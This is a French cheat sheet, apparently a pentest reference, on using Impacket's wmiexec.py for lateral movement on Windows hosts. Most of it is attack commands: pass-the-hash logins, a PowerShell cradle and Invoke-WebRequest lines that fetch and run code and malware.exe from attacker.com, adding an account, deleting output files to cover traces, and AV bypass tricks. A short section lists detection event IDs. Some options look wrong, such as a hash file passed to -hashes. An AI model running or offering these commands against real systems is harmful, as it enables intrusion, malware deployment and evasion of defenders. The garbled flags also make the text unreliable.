

**wmiexec.py** est un outil de la suite **Impacket** permettant l'exécution de commandes sur un hôte Windows distant via **WMI** (**Windows Management Instrumentation**) en exploitant les services **SMB** et **RPC**. Il est privilégié pour l'exécution de commandes en mode *fileless* lors des phases de mouvement latéral.



> [!danger] Prérequis
> Nécessite les privilèges d'administration locale (**Local Admin**) sur la cible.

> [!danger] Condition critique
> Le port 135 (**RPC**) et les ports dynamiques **SMB** doivent être accessibles.

> [!warning] Danger
> L'exécution de commandes via **WMI** génère des logs d'événements (**4688**, **7045**) très verbeux.

## Syntaxe de Base

```bash
wmiexec.py <DOMAIN>/<USER>:<PASSWORD>@<TARGET>
```

Exécution d'une commande simple :
```bash
wmiexec.py WORKGROUP/admin:password@192.168.1.100 "whoami"
```

Connexion interactive (shell) :
```bash
wmiexec.py WORKGROUP/admin:password@192.168.1.100
```

## Authentification avec Hash NTLM

Utilisation d'un hash **NTLM** pour le **Pass-the-Hash** :
```bash
wmiexec.py WORKGROUP/admin@192.168.1.100 -hashes :aad3b435b51404eeaad3b435b51404ee
```

Utilisation d'un fichier de credentials :
```bash
wmiexec.py -hashes <hash_file> <USER>@<TARGET>
```

## Authentification avec Kerberos

Utilisation d'un ticket **TGT** préexistant :
```bash
export KRB5CCNAME=/tmp/ticket.ccache
wmiexec.py -k <DOMAIN>/<USER>@<TARGET>
```

Utilisation d'un **TGS** (Service Ticket) :
```bash
wmiexec.py -dc-ip <DC_IP> -use-smb2-support -target <TARGET> -k
```

> [!tip] Astuce
> Utiliser **-dc-ip** pour forcer la résolution **Kerberos** dans des environnements isolés.

## Configuration requise sur la cible (pare-feu, services)

Pour que **wmiexec.py** fonctionne, les conditions suivantes doivent être remplies sur l'hôte cible :
- **Service WMI** : Le service `Winmgmt` doit être en cours d'exécution.
- **Pare-feu** : Le port **135 (RPC)** doit être ouvert. De plus, le service WMI utilise des ports dynamiques (RPC) qui doivent être autorisés par le pare-feu Windows.
- **Partages administratifs** : Le partage `ADMIN$` doit être accessible pour permettre l'écriture temporaire des fichiers de sortie.

## Comparaison avec d'autres méthodes (psexec, smbexec, winrm)

| Méthode | Protocole | Avantages | Inconvénients |
| :--- | :--- | :--- | :--- |
| **wmiexec** | WMI/RPC | Discret, pas de service installé | Logs verbeux (4688) |
| **psexec** | SMB/SVCCTL | Shell interactif stable | Crée un service temporaire (détectable) |
| **smbexec** | SMB | Très rapide, pas de service | Utilise des partages cachés, bruyant |
| **winrm** | WinRM/HTTP(S) | Natif, idéal pour PowerShell | Nécessite WinRM activé/configuré |

## Exécuter des Commandes

Exécution de commandes standard :
```bash
wmiexec.py WORKGROUP/admin:password@192.168.1.100 "net user"
```

Exécution de **PowerShell** :
```bash
wmiexec.py WORKGROUP/admin:password@192.168.1.100 "powershell -ep bypass -c 'Get-Process'"
```

Exécution de script **PowerShell** distant :
```bash
wmiexec.py WORKGROUP/admin:password@192.168.1.100 "powershell -c iex(New-Object Net.WebClient).DownloadString('http://attacker.com/script.ps1')"
```

Élévation de privilèges :
```bash
wmiexec.py admin:password@192.168.1.100 "cmd /c net user admin newpass /add"
```

## Upload et Exécution de Fichiers

Téléchargement de fichier vers la cible :
```bash
wmiexec.py WORKGROUP/admin:password@192.168.1.100 "powershell -c Invoke-WebRequest -Uri http://attacker.com/malware.exe -OutFile C:\Users\Public\malware.exe"
```

Exécution d'un fichier local :
```bash
wmiexec.py WORKGROUP/admin:password@192.168.1.100 "C:\Users\Public\malware.exe"
```

Suppression de fichier :
```bash
wmiexec.py WORKGROUP/admin:password@192.168.1.100 "del C:\Users\Public\malware.exe"
```

## Nettoyage des traces (suppression des fichiers temporaires WMI)

**wmiexec.py** crée des fichiers temporaires dans `C:\Windows\` (souvent nommés `__output` ou similaire) pour capturer la sortie des commandes. Il est impératif de les supprimer après usage :

```bash
wmiexec.py WORKGROUP/admin:password@192.168.1.100 "del C:\Windows\Temp\__*"
```

## Capture des Sorties & Debugging

Redirection des résultats :
```bash
wmiexec.py WORKGROUP/admin:password@192.168.1.100 "dir" > output.txt
```

Mode debug :
```bash
wmiexec.py -debug WORKGROUP/admin:password@192.168.1.100
```

## Analyse des logs et détection (Event IDs spécifiques)

L'utilisation de **wmiexec** laisse des traces exploitables par les équipes de défense (Blue Team) :
- **Event ID 4688** : Création de processus (ex: `wmiprvse.exe` lançant `cmd.exe`).
- **Event ID 7045** : Installation de service (si utilisé via des variantes de psexec, moins fréquent avec wmiexec pur).
- **Event ID 4624/4672** : Ouverture de session réseau avec privilèges élevés.
- **WMI Activity Logs** : Les logs sous `Microsoft-Windows-WMI-Activity/Operational` enregistrent les requêtes WMI entrantes.

## Contournement des Restrictions et AV

Mode **PowerShell** bypass :
```bash
wmiexec.py WORKGROUP/admin:password@192.168.1.100 "powershell -ep bypass -c 'Get-LocalUser'"
```

Modification de l'User-Agent :
```bash
wmiexec.py WORKGROUP/admin:password@192.168.1.100 "powershell -c Invoke-WebRequest -Uri http://attacker.com/mal.exe -Headers @{ 'User-Agent' = 'Mozilla/5.0' } -OutFile C:\Users\Public\mal.exe"
```

Utilisation de processus légitimes :
```bash
wmiexec.py WORKGROUP/admin:password@192.168.1.100 "rundll32.exe shell32.dll,Control_RunDLL calc.exe"
```

## Cas Pratique : Pivoting avec ProxyChains

Utilisation via **ProxyChains** :
```bash
proxychains wmiexec.py WORKGROUP/admin:password@192.168.1.100
```

Vérification préalable avec **netexec** (**nxc**) :
```bash
nxc smb 192.168.1.100 -u admin -p password --exec-method wmi
```

## Notes Légales & Sécurité

L'utilisation de **wmiexec.py** sans autorisation est illégale. Ces techniques doivent être appliquées dans le cadre de tests d'intrusion autorisés. Les actions réalisées sont enregistrées dans les journaux d'événements Windows (**Event ID 4688**).

Ces méthodes s'inscrivent dans les stratégies de mouvement latéral liées au **Pass-the-Hash**, à la **Kerberos Delegation** et au **Pivoting**, nécessitant une bonne maîtrise de l'énumération **SMB** et de l'analyse des **Windows Event Logs Analysis**.